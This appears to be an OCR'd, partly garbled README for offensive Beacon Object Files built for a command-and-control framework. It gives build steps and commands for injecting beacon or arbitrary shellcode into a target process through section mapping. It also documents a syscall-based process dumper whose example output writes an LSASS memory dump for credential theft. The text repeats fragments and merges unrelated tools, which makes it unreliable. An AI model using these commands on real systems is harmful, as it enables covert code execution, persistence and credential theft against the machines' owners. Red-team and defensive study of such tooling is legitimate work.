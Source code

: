 #### Injecting Other Shellcode
```
sec-shinject PID /path/to/bin
```

## Section Mapping Process Injection (secinject): AM0N-Eye BOF

Beacon Object File (BOF) that leverages Native APIs to achieve process injection through memory section mapping. 
one to inject beacon shellcode for a selected listener into the desired process, and one to inject the user's desired shellcode - loaded from a bin file - into the desired process.  These are *sec-inject* and *sec-shinject* respectively.

- Currently, this is only implemented for x64 processes.

### How to Make
```
cd secinject/src
make
```

### How to Use
#### Injecting Beacon
```
sec-inject PID LISTENER-NAME
```

#### Injecting Other Shellcode
```
sec-shinject PID /path/to/bin
```


## Compile

```
make
```

## Usage

- `static_syscalls_dump PID output_file` - Creates a dump for the specified PID at the supplied location.
- `static_syscalls_dump PID` - Not providing an output location will default to "C:\Windows\Temp\PID-[target_pid].dmp" 

> NOTE: BOF is for 64-bit use only.


### Example Output
```
beacon> static_syscalls_dump 4337 C:\Users\user\Desktop\lsass.dmp
[*] Syscalls Process Dump BOF (@ajpc500)
[+] host called home, sent: 8904 bytes
[+] received output:
Using Syscalls for Windows 10 or Server 2016, build number 19041
Dumping PID 4337 to file: C:\Users\user\Desktop\lsass.dmp

[+] received output:
Success!
```
